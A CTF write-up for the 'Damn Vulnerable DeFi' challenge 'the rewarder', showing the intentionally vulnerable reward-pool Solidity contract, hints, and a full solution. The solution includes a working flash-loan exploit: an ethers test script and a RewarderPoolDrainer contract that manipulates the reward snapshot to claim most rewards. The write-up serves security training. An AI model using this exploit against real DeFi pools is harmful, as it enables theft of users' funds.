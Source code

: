 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 5: the rewarder'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our fifth challenge is called 'the rewarder' and it comes with the following prompt:

```
There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?
```

So all we have to do is drain the pool!

The contracts for this challenge are located in contracts/the-rewarder/. Due to the number of contracts, I will only include the source code for our RewarderPool:

<details>
<summary> TheRewarderPool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./RewardToken.sol";
import "../DamnValuableToken.sol";
import "./AccountingToken.sol";

/**
 * @title TheRewarderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)

 */
contract TheRewarderPool {

    // Minimum duration of each round of rewards in seconds
    uint256 private constant REWARDS_ROUND_MIN_DURATION = 5 days;

    uint256 public lastSnapshotIdForRewards;
    uint256 public lastRecordedSnapshotTimestamp;

    mapping(address => uint256) public lastRewardTimestamps;

    // Token deposited into the pool by users
    DamnValuableToken public immutable liquidityToken;

    // Token used for internal accounting and snapshots
    // Pegged 1:1 with the liquidity token
    AccountingToken public accToken;
    
    // Token in which rewards are issued
    RewardToken public immutable rewardToken;

    // Track number of rounds
    uint256 public roundNumber;

    constructor(address tokenAddress) {
        // Assuming all three tokens have 18 decimals
        liquidityToken = DamnValuableToken(tokenAddress);
        accToken = new AccountingToken();
        rewardToken = new RewardToken();

        _recordSnapshot();
    }

    /**
     * @notice sender must have approved `amountToDeposit` liquidity tokens in advance
     */
    function deposit(uint256 amountToDeposit) external {
        require(amountToDeposit > 0, "Must deposit tokens");
        
        accToken.mint(msg.sender, amountToDeposit);
        distributeRewards();

        require(
            liquidityToken.transferFrom(msg.sender, address(this), amountToDeposit)
        );
    }

    function withdraw(uint256 amountToWithdraw) external {
        accToken.burn(msg.sender, amountToWithdraw);
        require(liquidityToken.transfer(msg.sender, amountToWithdraw));
    }

    function distributeRewards() public returns (uint256) {
        uint256 rewards = 0;

        if(isNewRewardsRound()) {
            _recordSnapshot();
        }        
        
        uint256 totalDeposits = accToken.totalSupplyAt(lastSnapshotIdForRewards);
        uint256 amountDeposited = accToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);

        if (amountDeposited > 0 && totalDeposits > 0) {
            rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;

            if(rewards > 0 && !_hasRetrievedReward(msg.sender)) {
                rewardToken.mint(msg.sender, rewards);
                lastRewardTimestamps[msg.sender] = block.timestamp;
            }
        }

        return rewards;     
    }

    function _recordSnapshot() private {
        lastSnapshotIdForRewards = accToken.snapshot();
        lastRecordedSnapshotTimestamp = block.timestamp;
        roundNumber++;
    }

    function _hasRetrievedReward(address account) private view returns (bool) {
        return (
            lastRewardTimestamps[account] >= lastRecordedSnapshotTimestamp &&
            lastRewardTimestamps[account] <= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION
        );
    }

    function isNewRewardsRound() public view returns (bool) {
        return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;
    }
}

```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Another standard flash loan. We have to repay it, but of course we must be able to do something with the borrowed funds before we repay it. Looking at the rewarder pool, what functions can we combine to both modify our rewards and repay our flash loan?
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
How are the rewards calculated and distributed?
</div>
</details>


<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
The flash loan allows us to create a contract that implements the `receiveFlashLoan(uint256)` function. If we look at the `TheRewarderPool.sol` contract, we can see that the reward tokens are distrubuted using the following formula: `rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;`. This means that rewards are calculated using a ratio of how many tokens you deposit to how many tokens are already deposited. We can see right away that for very large amounts deposited, the factor for the already deposited tokens becomes negligible. Thus, by making a large deposit of DVT tokens, we can take almost all of the rewards in the pool. The path to do so is straightforward, we simply have to wait the 5 days for a new snapshot to be eligible, and then we can take a flash loan and call the `deposit(uint256)` and `withdraw(uint256)` functions to update the snapshot and then transfer the tokens back. Finally, we can simply transfer the reward tokens our contract accrued to the attacker to complete the challenge.
</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);
        const RewarderAttackerFactory = await ethers.getContractFactory('RewarderPoolDrainer', deployer);
        this.r_attacker = await RewarderAttackerFactory.deploy(this.rewarderPool.address, this.flashLoanPool.address, this.liquidityToken.address);
        await this.r_attacker.attack(TOKENS_IN_LENDER_POOL);
        await this.r_attacker.payAttacker(attacker.address, this.rewardToken.address, ethers.utils.parseEther('100').sub(ethers.utils.parseUnits('1', 17)));
        await this.r_attacker.payAttacker(attacker.address, this.rewardToken.address, 1);
    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title RewarderPoolDrainer.sol
 * @author securerodd
 */
 interface IRewarderPool { 
   function deposit(uint256) external payable;
   function withdraw(uint256) external payable;
}

interface IFlashLoaner {
   function flashLoan(uint256) external;
}

interface ILiquidityToken {
    function approve(address, uint256) external;
    function transfer(address, uint256) external;
}

interface IRewardToken {
    function transfer(address, uint256) external;
}

contract RewarderPoolDrainer {
    IRewarderPool public pool;
    IFlashLoaner public lender;
    ILiquidityToken public token;
    constructor(address _poolAddress, address _lenderAddress, address _token) {
        pool = IRewarderPool(_poolAddress);
        lender = IFlashLoaner(_lenderAddress);
        token = ILiquidityToken(_token);
    }

    function receiveFlashLoan(uint256 _amount) external {
        token.approve(address(pool), _amount);
        pool.deposit(_amount);
        pool.withdraw(_amount);
        token.transfer(address(lender), _amount);
    }

    function payAttacker(address _attacker, address _rewardToken, uint256 _amount) external {
        IRewardToken rewardToken = IRewardToken(_rewardToken);
        rewardToken.transfer(_attacker, _amount);
    }

    function attack(uint _amount) external {
        lender.flashLoan(_amount);
    }
}
```
</div>
</details>